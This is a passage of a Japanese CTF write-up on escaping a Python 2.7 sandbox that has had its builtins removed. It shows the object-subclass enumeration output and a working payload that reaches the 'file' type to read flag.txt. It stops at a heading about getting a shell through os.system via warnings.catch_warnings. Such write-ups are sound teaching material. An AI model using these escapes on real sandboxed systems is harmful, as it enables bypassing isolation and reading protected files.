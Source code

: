 あくまで推測だが、`gone`に入れた関数がどれも使えなくなっているようである(解いた後でソースを確認したら`del __builtins__.__dict__[<gone_function>]`で破壊されていた)。流石に`open()`も`__import__`も使えない状態で`__builtins__`からファイルを読み込んだり、任意コード実行をするのは無理があるので策を練る必要がある。

こういう時の常套手段は`Object`を基底クラスに持つオブジェクトのメソッドや要素から使えるものを探すことになる。ひとまず`Object`に辿り着くには`().__class__.__base__`で出来、子クラスの列挙には`__subclasses__()`メソッドを使えば良い。

```python
Python 2.7.18 (default, Mar  8 2021, 13:02:45) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ().__class__.__base__
<type 'object'>
>>> ().__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> 
```

ここから使えるものを探す。とりあえず2通りの解法を思いついたのでそれぞれ示しておく。

### `file`を使う

列挙したサブクラスを眺めていると`<type 'file'>`が見つかる。`help()`で`file`を覗いてみると次のようになっているので、第一引数にファイル名を指定すれば`open("<filename>")`と等価なことが出来そうである。

```text
class file(object)
 |  file(name[, mode[, buffering]]) -> file object
```

というわけで最終的なペイロードは次のようになった。

```text
getattr(locals()["__builtins__"],"print")(().__class__.__base__.__subclasses__()[40]("flag.txt").read())
```

### `warning.catch_warnings`から`os.system`を呼び、シェルを召喚する
